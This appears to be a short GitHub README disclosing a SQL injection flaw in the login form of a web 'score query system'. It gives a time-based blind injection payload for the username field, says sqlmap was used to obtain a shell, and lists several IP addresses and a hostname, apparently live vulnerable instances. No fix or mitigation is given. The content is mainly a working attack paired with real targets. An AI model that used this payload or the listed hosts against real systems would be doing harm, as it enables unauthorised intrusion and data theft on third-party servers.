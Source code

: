 # SQL-injection-exists-in-the-score-query-system

Like:http://146.56.236.132:8088

Enter the account password, click login, and fill in the username with payload

![image](https://github.com/Echosssy/-SQL-injection-exists-in-the-score-query-system/assets/114723111/48a2084e-437e-4add-803f-b82718890afc)

And use sqlmap
Payload:admin');WAITFOR DELAY '0:0:5'--
![image](https://github.com/Echosssy/-SQL-injection-exists-in-the-score-query-system/assets/114723111/63a0fcf9-a7db-41bf-8c9b-acae69bbc830)

SQLmap getshell

![image](https://github.com/Echosssy/-SQL-injection-exists-in-the-score-query-system/assets/114723111/c1872442-8ef8-4180-a652-7bdb17fea092)
![image](https://github.com/Echosssy/-SQL-injection-exists-in-the-score-query-system/assets/114723111/740b3283-5ea8-4c96-aedf-ccffae7b4c46)

For example:
Like http://119.3.182.189:18081
LIke http://146.56.236.132:8008/
Like http://30.hooy.cc:18080/
Like http://117.36.197.243:8007/
